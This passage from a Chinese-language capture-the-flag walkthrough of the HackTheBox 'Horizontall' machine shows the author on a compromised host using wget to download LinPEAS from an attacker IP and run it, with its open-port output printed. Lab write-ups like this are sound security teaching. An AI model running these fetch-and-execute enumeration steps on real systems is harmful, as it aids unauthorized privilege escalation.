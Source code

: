 ```
strapi@horizontall:/dev/shm$ wget http://10.10.14.214/linpeas.sh
--2021-09-30 16:23:47--  http://10.10.14.214/linpeas.sh
Connecting to 10.10.14.214:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh.1    100%[=============>] 462.28K  2.05MB/s    in 0.2s    
2021-09-30 16:23:47 (2.05 MB/s) - ‘linpeas.sh’ saved [473371/473371]

strapi@horizontall:/dev/shm$ chmod +x linpeas.sh       

strapi@horizontall:/dev/shm$ ./linpeas.sh > linpeas.txt
grep: write error: Broken pipe
sh: printf: I/O error
grep: write error: Broken pipe
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
```

这需要一段时间才能完成。输出很长，但是 LinPEAS 用红色突出显示了有趣的区域，所以这一部分很突出:

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:80          0.0.0.0:*       LISTEN  -
tcp        0      0 0.0.0.0:22          0.0.0.0:*       LISTEN  -
tcp        0      0 127.0.0.1:1337      0.0.0.0:*       LISTEN  1830/node /usr/bin/
tcp        0      0 127.0.0.1:8000      0.0.0.0:*       LISTEN  -                   
tcp        0      0 127.0.0.1:3306      0.0.0.0:*       LISTEN  -                   
tcp6       0      0 :::80               :::*            LISTEN  -                   
tcp6       0      0 :::22               :::*            LISTEN  -
```

我可以通过使用 netstat 更快地找到它:

![](img/09b11c9129ac6cb2fdbe722f67451f18.png)

显示开放端口的 netstat

# Laravel 检测
